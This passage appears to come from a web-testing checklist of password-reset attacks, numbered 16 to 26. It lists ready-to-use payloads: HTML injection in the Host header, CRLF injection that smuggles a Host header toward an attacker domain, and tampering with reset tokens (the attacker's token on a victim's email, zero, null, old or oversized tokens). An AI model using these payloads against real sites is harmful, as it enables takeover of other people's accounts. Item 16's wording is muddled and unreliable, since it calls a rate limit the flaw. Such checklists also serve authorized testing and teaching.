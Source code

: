 ### 16.  Manipulating the Email Using Hashes and Spaces  
Test modifying the email parameter using hashes or spaces to check if it reveals information indicating the use of a paid service for sending password reset emails. If a rate limit on reset attempts is detected, this could be considered a vulnerability that may lead to financial costs for the company.

### 17. Sending Password Reset Link in Plain Text Without TLS
If the password reset link is sent in plain text instead of using TLS (Transport Layer Security), it exposes the link to interception by attackers.

### **18. Use Your Token on the Victim's Email**  
```
email=victim@gmail.com&token=YOUR-TOKENYOUR-TOKENYOUR-TOKEN
```

### **19. HTML Injection in Host Header**  
```
Host: attacker">.com
```

### **20. Remove the Token from the Link**  

### **21. Test CRLF Injection in URL**  
```
GET /resetPassword?%0d%0aHost:atracker.tld  
GET /resetPassword?redirect_uri=%0d%0aHost:atracker.tld
```

### **22. Change Token to 0000**  
```
http://example.com/reset?email=victims@gmail.com&token=0000000000
```

### **23. Change Token to null**  
```
http://example.com/reset?email=victims@gmail.com&token=null
```

### **24. Use a List of Old Tokens**  
```
http://example.com/reset?email=victims@gmail.com&token=[oldtoken1,oldtoken2]
```

### **25. Change Content Type**  
```
Change request content type (XML <> JSON)
```

### **26. Large Token**  
```
http://example.com/reset?email=victims@gmail.com&token=1000000-long-string
```
